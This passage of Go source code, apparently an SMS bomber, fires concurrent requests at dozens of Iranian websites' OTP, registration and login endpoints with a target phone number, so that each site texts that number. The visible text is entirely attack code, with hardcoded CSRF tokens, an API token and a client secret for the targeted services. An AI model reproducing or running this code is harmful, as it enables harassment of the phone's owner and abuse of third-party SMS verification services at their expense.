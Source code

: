		}, ch)
		s25 := fmt.Sprintf("'action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=fdaa7fc8e6&login=2&username=&email=&captcha=&captcha_ses=&json=1&whatsapp=0'", phone)
		go sms("https://www.pakhsh.shop/wp-admin/admin-ajax.php", map[string]interface{}{
			s25: phone,
		}, ch)
		s26 := fmt.Sprintf("'variables': {'mobile': %s,'query': 'mutation verificationCodeRequest($mobile: MobileScalar!) { mobileVerificationCodeRequest(mobile: $mobile) { success } }'", phone)
		go sms("https://api.basalam.com/user", map[string]interface{}{
			s26: phone,
		}, ch)
		s27 := fmt.Sprintf("'mobile': %s,'action': 'sendsms'", phone)
		go sms("https://crm.see5.net/api_ajax/sendotp.php", map[string]interface{}{
			s27: phone,
		}, ch)
		s28 := fmt.Sprintf("'mobileNumber': %s,'ReSendSMS': 'False'", phone)
		go sms("https://www.simkhanapi.ir/api/users/registerV2", map[string]interface{}{
			s28: phone,
		}, ch)
		s29 := fmt.Sprintf("'mobileNumber': %s,'country': '1'", phone)
		go sms("https://my.limoome.com/api/auth/login/otp", map[string]interface{}{
			s29: phone,
		}, ch)
		s30 := fmt.Sprintf("_token=bBSxMx7ifcypKJuE8qQEhahIKpcVApWdfZXFkL8R&mobile=%s&recaptcha=", phone)
		go sms("https://www.mihanpezeshk.com/ConfirmCodeSbm_Patient", map[string]interface{}{
			s30: phone,
		}, ch)
		s32 := fmt.Sprintf("number=%s&state=number&", phone)
		go sms("https://i.devslop.app/app/ifollow/api/otp.php/", map[string]interface{}{
			s32: phone,
		}, ch)
		s33 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=3b4194a8bb&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digits_reg_%D9%81%DB%8C%D9%84%D8%AF%D9%85%D8%AA%D9%86%DB%8C1642498931181=Nvgu&digregcode=%2B98&digits_reg_mail=%s&dig_otp=&code=&dig_reg_mail=&dig_nounce=3b4194a8bb", phone, phone)
		go sms("https://behzadshami.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s33: phone,
		}, ch)
		s34 := fmt.Sprintf("'apiToken':'VyG4uxayCdv5hNFKmaTeMJzw3F95sS9DVMXzMgvzgXrdyxHJGFcranHS2mECTWgq','clientSecret':'7eVdaVsYXUZ2qwA9yAu7QBSH2dFSCMwq','device':'web','username':%s", phone)
		go sms("https://restaurant.delino.com/user/register", map[string]interface{}{
			s34: phone,
		}, ch)
		go sms("http://shop.tnovin.com/login", map[string]interface{}{
			"phone": phone,
		}, ch)
		s35 := fmt.Sprintf("'mobile':%s,'countryCode':98,'device_os':2", phone)
		go sms("https://dastkhat-isad.ir/api/v1/user/store", map[string]interface{}{
			s35: phone,
		}, ch)
		s36 := fmt.Sprintf("fullname=%D9%85%D9%85%D8%AF&phoneNumber=%s&register=", phone)
		go sms("https://hamlex.ir/register.php", map[string]interface{}{
			s36: phone,
		}, ch)
		s37 := fmt.Sprintf("againkey=%s&cache=false", phone)
		go sms("https://moshaveran724.ir/m/pms.php", map[string]interface{}{
			s37: phone,
		}, ch)
		s38 := fmt.Sprintf("'phone_number':%s,'os_type':'W'", phone)
		go sms("https://account.api.balad.ir/api/web/auth/login/", map[string]interface{}{
			s38: phone,
		}, ch)
		s39 := fmt.Sprintf("'userKey':%s,'userKeyType':1", phone)
		go sms("https://app.flightio.com/bff/Authentication/CheckUserKey", map[string]interface{}{